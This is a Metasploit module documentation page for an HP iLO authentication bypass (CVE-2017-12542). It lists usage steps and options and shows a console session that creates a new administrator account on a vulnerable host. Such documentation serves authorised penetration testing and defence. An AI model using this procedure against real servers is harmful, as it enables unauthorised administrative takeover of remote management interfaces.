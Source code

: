 This module exploits the CVE-2017-12542 for authentication bypass on HP iLO, which is 100% stable when exploited this way, to create an arbitrary administrator account.

## Verification Steps

1. Start `msfconsole`
2. `use auxiliary/admin/hp/hp_ilo_create_admin_account`
3. Set `RHOST`
4. run `check` to check if remote host is vulnerable (module tries to list accounts using the REST API)
5. Set `USERNAME` and `PASSWORD` to specify a new administrator account credentials
6. run `run` to actually create the account on the iLO

## Options

  **USERNAME**

  The username of the new administrator account. Defaults to a random string.

  **PASSWORD**

  The password of the new administrator account. Defaults to a random string.

## Scenarios

### New administrator account creation

```
msf > use auxiliary/admin/hp/hp_ilo_create_admin_account 
msf auxiliary(admin/hp/hp_ilo_create_admin_account) > set RHOST 192.168.42.78
RHOST => 192.168.42.78
msf auxiliary(admin/hp/hp_ilo_create_admin_account) > check
[+] 192.168.42.78:443 The target is vulnerable.
msf auxiliary(admin/hp/hp_ilo_create_admin_account) > set USERNAME test_user
USERNAME => test_user
msf auxiliary(admin/hp/hp_ilo_create_admin_account) > set PASSWORD test_password
PASSWORD => test_password
msf auxiliary(admin/hp/hp_ilo_create_admin_account) > run

[*] Trying to create account test_user...
[+] Account test_user/test_password created successfully.
[*] Auxiliary module execution completed
msf auxiliary(admin/hp/hp_ilo_create_admin_account) > 
```